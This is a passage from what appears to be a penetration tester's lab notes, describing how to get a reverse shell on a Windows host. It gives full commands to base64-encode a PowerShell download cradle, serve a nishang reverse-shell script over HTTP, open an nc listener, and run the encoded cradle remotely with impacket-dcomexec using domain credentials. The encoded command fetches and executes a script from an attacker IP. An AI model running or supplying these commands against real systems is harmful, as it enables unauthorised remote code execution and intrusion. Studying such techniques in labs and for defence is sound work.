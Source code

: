     -   This will be used to grab the hosted shell from our system.

2.  Encode the powershell cradle in correct UTF format so powershell can understand it.
    ```shell
    cat cradle | iconv -t UTF-16LE | base64 -w 0; echo
    ```

    -   Breakdown:
        -   `cat cradle`: Reads the contents of the file (which is the PowerShell command).
        -   `iconv -t UTF-16LE`: Converts the plain text into UTF-16 Little Endian encoding.
            -   PowerShell's `-EncodedCommand` parameter expects the input to be in UTF-16LE format because that's how Windows internally represents strings.
        -   `base64 -w 0`: Base64-encodes the UTF-16LE data.
        -   `-w 0` ensures the output is all on one line (no line breaks), which is required for PowerShell to interpret it correctly.
        -   `echo`: Just adds a newline at the end so you don't get a messy prompt afterward.
    -   +Note+: I would always base64 encode cradles as often special characters such as parenthesis etc will need escaping to function correctly.
    -   {{< figure src="/ox-hugo/2025-04-24-084524_.png" >}}

3.  Prepare our shell, I like to use [nishang](https://github.com/samratashok/nishang) however you can use <http://revshells.com> etc.
    -   Copy our shell
        ```shell
           cp ~/Dropbox/40-49_Career/45-KaliShared/45.01-WindowsTools/nishang/Shells/Invoke-PowerShellTcpOneLine.ps1 rev.ps1
        ```

        -   {{< figure src="/ox-hugo/2025-04-24-084546_.png" >}}

    -   Modify IP/Port in shell if required.
        ```shell
        vi rev.ps1
        ```

4.  Start our webserver:
    ```shell
    sudo python -m http.server 80
    ```

5.  Start our listener:
    ```shell
    rlwrap  -cAr nc -nvlp 53
    ```

6.  Paste the base64 encoded command into powershell/injection point
    ```powershell
    impacket-dcomexec -object MMC20 -silentcommand -debug $domain/$user:$pass@$box 'powershell.exe -e SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAiAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQA0AC4AMwAxAC8AcgBlAHYALgBwAHMAMQAiACkACgA='
    ```

    -   {{< figure src="/ox-hugo/2025-04-24-084616_.png" >}}

7.  {{< figure src="/ox-hugo/2025-04-24-084032_.png" >}}
